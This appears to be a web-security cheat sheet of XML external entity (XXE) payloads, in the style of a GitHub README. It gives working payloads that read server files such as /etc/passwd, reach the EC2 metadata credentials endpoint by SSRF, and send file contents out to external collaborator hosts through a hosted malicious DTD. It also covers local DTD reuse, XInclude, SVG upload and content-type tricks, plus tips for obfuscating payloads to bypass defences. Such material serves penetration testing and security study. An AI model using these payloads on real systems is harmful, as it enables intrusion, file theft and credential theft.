 # XXE Payloads
## Note

Keep in mind that XML is just a data transfer format. Make sure you also test any XML-based functionality for other vulnerabilities like XSS and SQL injection. You may need to encode your payload using XML escape sequences to avoid breaking the syntax, but you may also be able to use this to obfuscate your attack in order to bypass weak defences.

### Normal Method
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  >> For retrieving server files.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>  >> For SSRF attack.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://zhkjg0n2ikpienyuf43fiyvuelkc82wr.oastify.com"> ]>  >> For Blind xxe attack.
&xxe;
```
Note: http://169.254.169.254/latest/meta-data/iam/security-credentials/admin endpoint EC2 to retrieve info for SSRF.
#### Example:
Before Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
After Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use ```XML parameter entities instead```.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://x0yhzy601i8gxlhsy2md1wesxj3ar2fr.oastify.com"> %xxe; ]>  >> For Blind xxe via XML parameter entities.
```
#### Example:
Blind Injection via ```XML parameter entities```.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://lzo0rtwgk8xcsit88fj9qc8wun0eo8cx.oastify.com"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.
### Exploiting blind XXE via external DTD server
Host this payload with burp collaborator in external DTD server.
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://uljekvrxmftdii2pjz7amtzpigo7c50u.oastify.com/?x=%file;'>">
%eval;
%exfil;
____________________________________________
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Now paste the external DTD server link in burpsuite
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://external.dtd.server"> %xxe; ]>
```
### Exploiting XXE to retrieve data by repurposing a local DTD against known Operating System
Locate an existing DTD file to repurpose. For example, Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing. Try bruteforcing with common dtd file names via burp intruder to identify local dtd file. 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Now use this payload with identified dtd.
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
### Exploiting XInclude to retrieve files
Some applications receive client-submitted data via parameter value(id=1) without xml body, embed it on the server-side into an XML document, and then parse the document. In this situation try this method. Use &xxe; (encode & to %26) to parameter value(id=&xxe;) to identify xxe via error message. Then place this payload in value to retrieve file.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Exploiting XXE via image file upload
Change: 
    filename="test.png" to filename="attack.svg" >>
    Content-Type: image/png to Content-Type: image/svg+xml >>
Then put this payload in pixel data.
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
Note: The ```svg``` Image format uses XML
### Exploiting XXE via modified Content-Type
Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format. 
